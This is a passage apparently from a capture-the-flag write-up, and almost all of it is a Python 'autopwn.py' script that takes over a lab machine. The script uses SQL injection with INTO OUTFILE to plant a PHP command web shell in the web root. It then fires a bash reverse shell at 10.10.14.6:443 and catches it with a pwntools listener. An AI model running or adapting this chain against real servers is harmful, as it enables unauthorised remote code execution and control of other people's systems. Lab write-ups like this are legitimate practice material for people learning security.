 Together with the [hack4u](https://hack4u.io/){:target="_blank"} community, a script was created to automate the whole procedure to access the machine.

> **`autopwn.py`**

```python
#!/usr/bin/python3

from pwn import *
import signal, pdb, requests

def def_handler(sig, frame):
    print("\n\n[!] Exiting...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) !=3:
    log.failure("Use: %s <ip-address> filename" % sys.argv[0])
    sys.exit(1)

# Global Variables
ip_address = sys.argv[1]
filename = sys.argv[2]
main_url = "http://%s/" % ip_address
lport = 443

#pdb.set_trace()

def createFile():
    
    data_post = {
            'username': 'admin',
            'country': """Brazil' union select "<?php system($_REQUEST['cmd']); ?>" into outfile '/var/www/html/%s'-- -""" % filename
    }

    r = requests.post(main_url, data=data_post)


def getAccess():

    data_post = {
            'cmd': "bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'"
    }

    r = requests.post(main_url + "%s" % filename, data=data_post)

if __name__ == '__main__':

    createFile()
    try:
        threading.Thread(target=getAccess, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()
    shell.interactive()
```
